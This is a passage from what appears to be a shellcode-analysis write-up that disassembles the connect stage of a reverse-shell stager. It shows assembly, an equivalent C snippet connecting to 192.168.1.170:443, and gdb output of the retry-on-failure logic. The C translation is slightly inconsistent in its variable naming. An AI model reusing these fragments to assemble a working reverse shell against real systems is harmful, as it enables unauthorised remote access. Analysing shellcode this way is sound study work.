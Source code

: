 ```nasm
push   0x10
pop    rdx

; set RAX to the calue 0x2a (syscall sys_connect)
push   0x2a
pop    rax

; invoke sys_connect
syscall
```

They can be converted to the following C code:

```cpp
struct sockaddr_in RSI;

myaddr.sin_family = AF_INET;
myaddr.sin_port = htons(443);
inet_aton("192.168.1.170", &amp;myaddr.sin_addr.s_addr);

connect(RDI, (struct sockaddr*)RSI, 16);
```

It simply creates a **sockaddr** structure that stores the IP address and the TCP port, along with address family (`AF_INET`, i.e. IPv4), and then it is passed to the function `connect`.

The latter connects the file descriptor obtained from the `socket` syscall to the remote socket `192.168.1.170:443`.

After the call to `sys_connect`, the following instructions are run:

```bash
(gdb) x/13i $rip
# => 0x4000a7:    pop    rcx
#    0x4000a8:    test   rax,rax
#    0x4000ab:    jns    0x4000d2
#    0x4000ad:    dec    r9
#    0x4000b0:    je     0x4000ca
#    0x4000b2:    push   rdi
#    0x4000b3:    push   0x23
#    0x4000b5:    pop    rax
#    0x4000b6:    push   0x0
#    0x4000b8:    push   0x5
#    0x4000ba:    mov    rdi,rsp
#    0x4000bd:    xor    rsi,rsi
#    0x4000c0:    syscall
```

Among the first instructions, there's a `pop rcx` that restores the old value of `RCX` (pushed by the instruction `0x40009b`).

After that, the instructions `test` and `jns` test whether the value returned by the syscall `connect` is signed or not. If the value is signed, hence negative, it means the function failed, and the socket client failed to connect to the socket server.
